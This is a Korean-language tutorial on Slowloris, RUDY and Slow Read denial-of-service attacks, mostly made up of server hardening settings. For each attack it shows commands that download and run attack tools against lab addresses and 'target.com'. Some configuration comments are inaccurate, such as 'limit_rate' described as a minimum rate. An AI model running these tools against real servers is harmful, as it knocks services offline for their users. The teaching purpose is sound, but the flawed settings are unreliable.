



## 개요

Slow HTTP 공격은 적은 리소스로 웹 서버를 마비시킬 수 있는 효율적인 DoS(Denial of Service) 공격 기법입니다. 이 문서에서는 Slowloris, RUDY, Slow Read DoS 등 세 가지 주요 Slow HTTP 공격 기법과 효과적인 방어 방법을 학습합니다.

## Slow HTTP 공격 개요

### 특징

전통적인 DDoS 공격과 달리 **소수의 연결만으로도** 웹 서버를 마비시킬 수 있는 공격입니다.

**주요 특징:**
- 수신 속도를 늦춰 연결을 장시간 유지
- 적은 대역폭으로 큰 효과
- 탐지가 어려움 (정상 트래픽처럼 보임)
- 소규모 봇넷으로도 공격 가능

### Slow HTTP 공격 종류

| 공격 유형 | 대상 | 특징 |
|---------|------|------|
| **Slow HTTP Header DoS (Slowloris)** | 헤더 | CRLF CRLF 개행 문자 조작을 통해 헤더 정보를 구분 못하게 하는 공격 |
| **Slow HTTP POST DoS (RUDY)** | POST 데이터 | Content-Length 조작하여 서버로 전달할 "대량의 데이터를 장시간에 걸쳐 분할 전송" |
| **Slow HTTP Read DoS** | 응답 수신 | TCP window 크기 및 데이터 처리율을 감소하여 천천히 수신 |

## 1. Slowloris 공격

### 개념

**Slow HTTP Header DoS 공격: Header 개행 문자 조작**

웹 서버는 HTTP 메시지의 헤더부분을 먼저 수신하여 이후 수신할 데이터의 종류를 판단합니다. Slowloris는 **CRLF CRLF 개행 문자 조작을 통해 헤더 정보를 구분 못하게 하여 정보를 구분 못하게 하는 공격**입니다.

### 공격 원리



**1단계: 헤더부분을 비정상적으로 조작하여 수신하여 이후 수신할 데이터의 종류를 판단**

**2단계: 헤더부분을 비정상적으로 조작하여 웹 서버가 헤더정보를 구분 할 수 없도록 하면, 웹 서버는 아직 HTTP 헤더정보가 모두 전달되지 않았다고 판단하여 연결을 장시간 유지**

**3단계: 데이터를 전달하는 다수의 종비PC에 의해 서버는 다른 정상적인 사용자에 대한 서비스 불가능**

### HTTP 요청 구조

**정상적인 HTTP 요청:**
```http
GET /index.html HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0
Accept: text/html
[CRLF]
[CRLF]  ← 헤더 종료를 알리는 빈 줄
```

**Slowloris 공격 요청:**
```http
GET /index.html HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0
X-a: b[CRLF]
[1-2분 대기]
X-b: c[CRLF]
[1-2분 대기]
X-c: d[CRLF]
...
(헤더를 완성하지 않고 계속 유지)
```

### 공격 도구 사용법

**Kali Linux 실습:**

```bash
# 1. 디렉터리 생성
mkdir slowloris
cd slowloris

# 2. GitHub에서 다운로드
git clone https://github.com/gkbrk/slowloris.git
cd slowloris

# 3. 공격 실행
python3 slowloris.py 192.168.10.100 -s 500

# 옵션 설명:
# -s 500 : 소켓 갯수 (동시 연결 수)
# -p 80  : 포트 번호 (기본값: 80)
# -v     : Verbose 모드
```

**고급 옵션:**
```bash
# 더 많은 소켓으로 공격
python3 slowloris.py target.com -s 1000

# HTTPS 대상 공격
python3 slowloris.py target.com -p 443 --https

# 사용자 지정 슬립 시간
python3 slowloris.py target.com -s 500 --sleeptime 15
```

### 피해 현상

- 웹 서버의 최대 동시 접속 수 소진
- 정상 사용자의 접속 차단
- 서버 CPU/메모리는 정상이나 연결 불가
- 로그에는 정상적인 연결 시도로 기록

### 대응 방안

#### 1. 방화벽(WAF)을 사용하여 Slowloris 공격 패턴을 탐지하고 차단

**탐지 패턴:**
- 동일 IP에서 다수의 불완전한 연결
- 헤더 전송 속도가 비정상적으로 느림
- CRLF CRLF 개행 문자가 오랜 시간 전송되지 않음

#### 2. 클라이언트와의 통신 시간을 설정하여 연결 시간 초과를 방지

**Apache 설정 (httpd.conf):**
```apache
# 요청 헤더 수신 타임아웃 설정 (기본값: 60초)
RequestReadTimeout header=20-40,MinRate=500 body=20,MinRate=500

# Keep-Alive 타임아웃 단축
Timeout 60
KeepAliveTimeout 5

# 최대 요청 수 제한
MaxKeepAliveRequests 100
```

**Nginx 설정 (nginx.conf):**
```nginx
http {
    # 클라이언트 헤더 타임아웃
    client_header_timeout 10s;

    # 클라이언트 바디 타임아웃
    client_body_timeout 10s;

    # Keep-Alive 타임아웃
    keepalive_timeout 5s;

    # 느린 클라이언트 연결 종료
    send_timeout 10s;
}
```

#### 3. 웹 서버나 로드 밸런서에서 동시 계산 수를 제한하여 요청 처리를 최적화

**Apache mod_qos 사용:**
```apache
LoadModule qos_module modules/mod_qos.so

# 동일 IP당 최대 연결 수 제한
QS_SrvMaxConnPerIP 20

# 최소 요청 속도 설정 (bytes/sec)
QS_SrvMinDataRate 150
```

#### 4. 웹 서버의 Keep-Alive 타임아웃 값을 짧게 설정

```apache
# Apache
KeepAlive On
KeepAliveTimeout 2
MaxKeepAliveRequests 50
```

```nginx
# Nginx
keepalive_timeout 2;
keepalive_requests 50;
```

#### 5. (비정상적인 연결이 오래 지속되는 것을 방지할 수 있습니다.)

#### 6. 로드 밸런서를 사용하여 서버 부하를 분산시킵니다.

**HAProxy 설정:**
```
defaults
    timeout client 10s
    timeout server 10s
    timeout connect 5s
    timeout http-request 10s
```

## 2. RUDY 공격 (R-U-Dead-Yet?)

### 개념

**Slow HTTP POST DoS: 송신속도 감소**

**RUDY (R-U-Dead-Yet?) => Content-Length 조작하여 서버로 전달할 "대량의 데이터를 장시간에 걸쳐 분할 전송"**

### 공격 원리



**1단계: HTTP POST 지시자를 이용하여 서버로 전달할 "대량의 데이터를 장시간에 걸쳐 분할 전송"**

**2단계: 서버는 POST 데이터가 모두 수신하지 않았다고 판단하여 연결을 장시간 유지**

**3단계: 이러한 데이터를 전달하는 다수의 종비PC에 의해 서버는 다른 정상적인 사용자에 대한 서비스 불가능**

### HTTP POST 요청 구조

**정상적인 POST 요청:**
```http
POST /form.php HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

name=John&age=30&email=
```

**RUDY 공격 요청:**
```http
POST /form.php HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 1000000

n
[10초 대기]
a
[10초 대기]
m
[10초 대기]
...
(매우 느리게 1바이트씩 전송)
```

### RUDY 공격의 세부 기법

#### 1. Content-Length 조작

**"Content-Length": POST 요청의 본문 데이터 길이를 나타내는 헤더**

RUDY 공격에서는 이 값을 큰 값으로 설정하여 서버가 데이터를 기다리게 만듭니다.

```http
Content-Length: 2000000000  (2GB를 전송하겠다고 선언)
```

#### 2. Transfer-Encoding 조작

**"Transfer-Encoding": POST 요청 본문의 전송 인코딩 방식을 지정하는 헤더**

RUDY 공격에서는 "Transfer-Encoding" 값을 "chunked"로 설정하여 서버가 데이터를 조각 조각 처리하는 데 시간이 오래 걸리도록 합니다.

```http
Transfer-Encoding: chunked

1
a
[10초 대기]
1
b
[10초 대기]
...
```

#### 3. Expect 헤더 조작

**"Expect": 클라이언트가 서버로부터의 응답을 기다리는 동안 요청을 보류시키는 헤더**

RUDY 공격에서는 "Expect" 값을 "100-continue"로 설정하여 서버가 요청 처리를 계속 지연하도록 합니다.

```http
Expect: 100-continue

[서버의 100 Continue 응답 대기]
[서버가 응답하면 아주 천천히 데이터 전송]
```

### 공격 도구 사용법

**Kali Linux 실습:**

```bash
# 1. 디렉터리 생성
mkdir RUDY
cd RUDY

# 2. GitHub에서 다운로드
git clone https://github.com/SergiDelta/rudy.git
cd rudy

# 3. 실행 권한 부여
chmod +x rudy.py

# 4. 공격 실행
python3 rudy.py 192.168.10.100 -l 1024

# 옵션 설명:
# -l 1024 : Content-Length 길이
# -p 80   : 포트 번호
```

**실제 공격 예:**
```bash
# 100개 연결로 공격
python3 rudy.py target.com -c 100 -l 2048

# HTTPS 대상 공격
python3 rudy.py target.com -p 443 --ssl

# POST 경로 지정
python3 rudy.py target.com --path /upload.php
```

### 대응 방안

#### 1. Slow HTTP POST DoS 공격은 서버의 리소스를 많이 소비하므로 웹 서버의 성능을 저하시키고 서비스의 가용성을 감소시킬 수 있습니다.

#### 2. WAF를 사용하여 알려진 Slow HTTP POST 공격 패턴을 탐지하고 차단합니다.

**ModSecurity 규칙:**
```apache
# POST 요청 시간 제한
SecRule REQUEST_METHOD "@streq POST" \
    "id:2001,phase:2,deny,status:408,\
    msg:'POST request timeout',\
    chain"
SecRule RESPONSE_STATUS "@eq 408" "t:none"
```

#### 3. 로드 밸런서를 사용하여 서버 부하를 분산시킵니다.

#### 4. 웹 서버 및 애플리케이션에서 서버의 최대 연결 및 요청 수를 제한합니다.

**Apache 설정:**
```apache
# POST 요청 바디 크기 제한
LimitRequestBody 1048576  # 1MB

# 요청 라인 길이 제한
LimitRequestLine 8190

# 요청 필드 개수 제한
LimitRequestFields 100
```

**Nginx 설정:**
```nginx
http {
    # POST 바디 크기 제한
    client_max_body_size 1m;

    # 바디 버퍼 크기
    client_body_buffer_size 128k;

    # 요청 타임아웃
    client_body_timeout 12s;
}
```

#### 5. 웹 서버 설정에서 클라이언트와의 통신 제한 시간을 설정하여 연결 시간 초과를 방지합니다.

#### 6. 정기적인 보안 감사 및 취약점 점검을 수행하여 서버의 취약점을 최소화합니다.

## 3. Slow Read DoS 공격

### 개념

**Slow HTTP Read DoS 공격: 수신속도 감소**

**Slow Read DoS: TCP window 크기 및 데이터 처리율을 감소하여 천천히 수신**

### 공격 원리



**1단계: 공격자는 웹 서버와 TCP 연결 시, TCP 윈도우 크기 및 데이터 처리율을 감소시켜 천천히 HTTP 데이터를 송신하여 웹서버가 정상적으로 응답하지 못하도록 DoS상태를 유발**

**2단계: TCP 윈도우 사이즈 크기 및 데이터 처리율을 감소시키면 서버는 정상 상태로 회복될 때까지 대기 상태에 빠지게 되어 다른 정상적인 사용자에 대한 서비스를 불가능**

### TCP Window 개념

**TCP Window Size:**
- 수신자가 한 번에 받을 수 있는 데이터의 양
- 정상: 64KB - 1MB
- Slow Read 공격: 1byte - 10bytes

**흐름 제어:**
```
정상 통신:
서버 → [64KB 전송] → 클라이언트 (Window: 64KB)

Slow Read 공격:
서버 → [1 byte 전송] → 공격자 (Window: 1 byte)
서버 → [대기...] → 공격자 (Window: 1 byte)
```

### 공격 도구 사용법

**Kali Linux 실습:**

```bash
# slowhttptest 설치
sudo apt -y install slowhttptest

# Slow Read 공격 실행
sudo slowhttptest -c 10000 -X -g -o slowread_test -u http://192.168.10.129

# 옵션 설명:
# -c 10000  : target에 대한 connection 수
# -X        : slow read 모드
# -g        : 소켓 상태 변경을 통합한 통계 생성
# -o        : outfile (파일로 출력)
# -u        : 대상 URL
```

**고급 옵션:**
```bash
# 더 많은 연결로 공격
slowhttptest -c 50000 -X -r 100 -u http://target.com

# 윈도우 크기 조정
slowhttptest -c 10000 -X -w 512 -u http://target.com

# 읽기 속도 조정 (bytes/sec)
slowhttptest -c 10000 -X -y 10 -u http://target.com

# 연결 속도 조정
slowhttptest -c 10000 -X -i 50 -u http://target.com
```

### 대응 방안

#### 1. HTTP 요청 처리 시간 제한 설정

서버에서 HTTP 요청의 처리 시간 제한을 설정하여, 응답이 일정 시간 이내에 수신되지 않으면 연결을 끊을 수 있습니다.

**Apache 설정:**
```apache
# 요청 처리 시간 제한
Timeout 30

# 전송 타임아웃
ProxyTimeout 30
```

**Nginx 설정:**
```nginx
# 응답 전송 타임아웃
send_timeout 10s;

# 프록시 타임아웃
proxy_send_timeout 10s;
proxy_read_timeout 10s;
```

#### 2. Keep-Alive 연결 제한

서버에서 Keep-Alive 연결 시간을 제한하고, 연결 유지 시간이 초과하면 연결을 끊습니다.

```apache
# Apache
KeepAlive On
KeepAliveTimeout 2
MaxKeepAliveRequests 50
```

#### 3. 웹 방화벽(WAF) 사용

웹 방화벽을 사용하여 Slow HTTP Read 공격을 감지하고 차단할 수 있습니다.

**탐지 조건:**
- 비정상적으로 작은 TCP Window Size
- 데이터 수신 속도가 극도로 느림
- 동일 IP에서 다수의 느린 연결

#### 4. 로드 밸런서 사용

로드 밸런서를 사용하여 서버 부하를 분산시키고, Slow HTTP Read 공격을 분산시킵니다.

#### 5. 최소 데이터 전송 속도 설정

**Apache mod_reqtimeout:**
```apache
# 최소 데이터 전송 속도 500 bytes/sec
RequestReadTimeout body=20,MinRate=500
```

**Nginx:**
```nginx
# 느린 클라이언트 차단
limit_rate 10k;  # 최소 전송 속도
```

## 종합 비교

### Slow HTTP 공격 비교표

| 공격 유형 | Slowloris | RUDY | Slow Read |
|---------|-----------|------|-----------|
| **공격 대상** | HTTP 헤더 | HTTP POST Body | HTTP 응답 수신 |
| **송신/수신** | 송신 속도 감소 | 송신 속도 감소 | 수신 속도 감소 |
| **조작 대상** | CRLF 개행문자 | Content-Length | TCP Window Size |
| **필요 대역폭** | 매우 낮음 | 낮음 | 낮음 |
| **탐지 난이도** | 중간 | 중간 | 높음 |
| **주요 피해** | Connection 고갈 | POST 처리 지연 | 응답 전송 지연 |

### 공통 대응 방안

#### 1. 연결 타임아웃 설정

모든 Slow HTTP 공격에 효과적입니다.

```apache
# Apache 종합 설정
Timeout 60
KeepAliveTimeout 5
RequestReadTimeout header=20-40,MinRate=500 body=20,MinRate=500
LimitRequestBody 1048576
```

```nginx
# Nginx 종합 설정
client_header_timeout 10s;
client_body_timeout 10s;
send_timeout 10s;
keepalive_timeout 5s;
client_max_body_size 1m;
```

#### 2. 연결 수 제한

**IP당 최대 연결 수 제한:**
```apache
# mod_qos 사용
QS_SrvMaxConnPerIP 20
```

```nginx
# limit_conn 사용
limit_conn_zone $binary_remote_addr zone=addr:10m;
limit_conn addr 10;
```

#### 3. 웹 애플리케이션 방화벽 (WAF)

**ModSecurity 규칙:**
```apache
# Slow HTTP 공격 탐지
SecRule REQUEST_HEADERS:Content-Length "@gt 1000000" \
    "id:3001,phase:1,deny,status:413,msg:'Request Entity Too Large'"

# 느린 클라이언트 차단
SecRule TX:ANOMALY_SCORE "@ge 5" \
    "id:3002,phase:2,deny,status:403,msg:'Slow Attack Detected'"
```

#### 4. Rate Limiting

**요청 속도 제한:**
```nginx
# 초당 요청 수 제한
limit_req_zone $binary_remote_addr zone=one:10m rate=10r/s;
limit_req zone=one burst=20 nodelay;
```

#### 5. 리버스 프록시 / CDN 사용

**장점:**
- Slow HTTP 공격을 프록시 레벨에서 차단
- 원본 서버 보호
- 글로벌 분산으로 공격 영향 최소화

**추천 솔루션:**
- Cloudflare
- AWS CloudFront
- Nginx Reverse Proxy
- HAProxy

## 실전 시나리오

### 시나리오 1: Apache 서버 Slowloris 공격 받음

**증상:**
- MaxClients 200 설정인데 모든 연결이 사용 중
- CPU/메모리는 정상인데 새 연결 불가
- access.log에 비정상적으로 긴 요청 시간

**확인:**
```bash
# 현재 연결 상태 확인
netstat -an | grep :80 | wc -l

# 느린 연결 확인
netstat -anp | grep :80 | grep ESTABLISHED

# Apache 상태 확인
apachectl status
```

**대응:**
```apache
# httpd.conf 수정
RequestReadTimeout header=20-40,MinRate=500 body=20,MinRate=500
Timeout 60
KeepAliveTimeout 5
MaxKeepAliveRequests 50

# 재시작
systemctl restart httpd
```

### 시나리오 2: Nginx 서버 RUDY 공격 받음

**증상:**
- POST 요청이 비정상적으로 오래 걸림
- worker process가 계속 대기 상태
- 업로드 폼이 응답하지 않음

**대응:**
```nginx
# nginx.conf 수정
http {
    client_body_timeout 12s;
    client_max_body_size 1m;
    client_body_buffer_size 128k;

    # 느린 클라이언트 차단
    limit_req_zone $binary_remote_addr zone=post:10m rate=5r/s;

    server {
        location /upload {
            limit_req zone=post burst=10;
        }
    }
}

# 재시작
systemctl restart nginx
```

### 시나리오 3: 종합 방어 설정

**HAProxy + Nginx 조합:**

```
# HAProxy (haproxy.cfg)
defaults
    timeout client 30s
    timeout server 30s
    timeout connect 5s
    timeout http-request 10s
    timeout http-keep-alive 2s

    # 연결 수 제한
    maxconn 2000

frontend web
    bind *:80
    default_backend web_servers

    # Slow HTTP 공격 차단
    tcp-request inspect-delay 5s
    tcp-request content reject if HTTP_1.0

backend web_servers
    balance roundrobin
    server web1 192.168.1.10:80 check maxconn 100
    server web2 192.168.1.11:80 check maxconn 100
```

## 마무리

Slow HTTP 공격은 적은 리소스로 큰 피해를 줄 수 있는 효율적인 DoS 공격입니다. Slowloris는 헤더를 천천히 보내고, RUDY는 POST 데이터를 천천히 보내며, Slow Read는 응답을 천천히 받아 서버 자원을 고갈시킵니다. 효과적인 방어를 위해서는 **타임아웃 설정, 연결 수 제한, WAF 사용, Rate Limiting** 등 다층 방어 전략을 적용해야 합니다.
